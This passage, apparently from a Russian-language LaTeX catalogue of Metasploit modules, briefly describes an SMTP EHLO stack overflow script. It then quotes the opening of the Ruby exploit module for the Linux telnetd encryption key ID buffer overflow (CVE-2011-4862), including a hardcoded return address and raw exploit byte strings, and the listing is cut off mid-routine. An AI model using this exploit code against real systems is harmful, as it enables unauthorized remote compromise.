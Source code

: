 \documentclass[10pt,a4paper]{report}
\begin{document}
Данный скрипт посылает smtp серверу очень длинное приветственное сообщение с командой EHLO - улиент хочет использовать расширенную версию smtp. Это вызывает перезапись стека.

		\subsection{telnet/telnet\_encrypt\_keyid.rb}
			Полный путь к файлу: 
			/usr/share/metasploit-framework/modules/exploits/linux/telnet/telnet\_encrypt\_keyid.rb
			Ниже приведен исходный код скрипта:
			\begin{lstlisting}

require 'msf/core'


class Metasploit3 < Msf::Exploit::Remote
  Rank = GreatRanking

  include Msf::Exploit::Remote::Telnet
  include Msf::Exploit::BruteTargets

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'Linux BSD-derived Telnet Service Encryption Key ID Buffer Overflow',
      'Description'    => %q{
          This module exploits a buffer overflow in the encryption option handler of the
        Linux BSD-derived telnet service (inetutils or krb5-telnet). Most Linux distributions
        use NetKit-derived telnet daemons, so this flaw only applies to a small subset of
        Linux systems running telnetd.
        },
      'Author'         => [ 'Jaime Penalba Estebanez <jpenalbae[at]gmail.com>', 'Brandon Perry <bperry.volatile[at]gmail.com>', 'Dan Rosenberg', 'hdm' ],
      'License'        => MSF_LICENSE,
      'References'     =>
        [
          ['CVE', '2011-4862'],
          ['OSVDB', '78020'],
          ['BID', '51182'],
          ['EDB', '18280']
        ],
      'Privileged'     => true,
      'Platform'       => 'linux',
      'Payload'        =>
        {
          'Space'       => 200,
          'BadChars'    => "\x00",
          'DisableNops' => true,
        },

      'Targets'        =>
        [
          [ 'Automatic',  { } ],
          [ 'Red Hat Enterprise Linux 3 (krb5-telnet)', { 'Ret' => 0x0804b43c } ],
        ],
      'DefaultTarget'  => 0,
      'DisclosureDate' => 'Dec 23 2011'))
  end

  def exploit_target(t)

    connect
    banner_sanitized = Rex::Text.to_hex_ascii(banner.to_s)
    vprint_status(banner_sanitized)

    enc_init      = "\xff\xfa\x26\x00\x01\x01\x12\x13\x14\x15\x16\x17\x18\x19\xff\xf0"
    enc_keyid     = "\xff\xfa\x26\x07"
    end_suboption = "\xff\xf0"


\end{lstlisting}
\end{document}
